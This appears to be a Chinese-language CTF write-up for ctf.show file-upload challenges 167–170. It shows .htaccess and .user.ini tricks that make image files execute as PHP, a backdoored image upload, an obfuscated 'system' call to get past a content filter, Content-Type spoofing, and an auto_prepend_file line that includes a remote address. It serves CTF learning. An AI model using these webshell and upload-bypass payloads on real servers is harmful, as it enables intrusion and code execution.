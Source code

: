 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996766-70a6017e-c39e-4480-86b1-63f2a040ab55.png)

167

```plain
.htaccess默认不支持nginx，支持Apache，但是设置后支持https://blog.csdn.net/cs729298/article/details/77478155
.htaccess可以通过设置实现文件解析配置
将.png后缀的文件解析成php
AddType application/x-httpd-php .png   
将.png后缀的文件解析成php
```

上传.htaccess，内容：AddType application/x-httpd-php .jpg

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996883-59e87482-a904-4672-a88e-120ccd72e62d.png)

上传一个带后门的图片代码

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225996996-47190b20-4a27-421e-b396-144312fe9942.png)

访问后门地址：http://0a3f2ecc-8fe8-4964-a37c-cc8100671166.challenge.ctf.show/upload/11.jpg

168

```plain
这是一个脚本免杀内容。可以直接上传php文件。但是对后门内容有过滤。
构造payload：<?php $a='syste';$b='m';$c=$a.$b;$c('tac ../flagaa.php');?>
<?php $a='syste'.'m';$a('tac ../flagaa.php');?>
访问文件，读取完成。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225997030-ebe4f896-9d17-42c8-941d-9b38ea782c82.png)

169 170

构造.user.ini利用条件：上传index.php 内容随意

```plain
.user.ini的内容：auto_prepend_file=png
png的内容：<?php phpinfo();?>
index.php内容：fawiekjbfkjd（随意）
访问当前目录，就可以触发PHPinfo效果。
php版本需要7版本
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225997088-e81e2ae0-0e60-4137-8f67-6030d5294091.png)

```plain
访问upload目录，发现没有index.php，发生403错误。所以需要上传一个index.php
上传php需要修改 保存在upload目录下
Content-Type:image/png
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225997241-dc07a563-4521-410a-ac12-7e19199b0aee.png)

```plain
上传.user.ini，包含远程地址：auto_prepend_file=http://794750069/
然后读取flag
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721225997345-887908dd-3e51-4629-8a6a-0f3e91468776.png)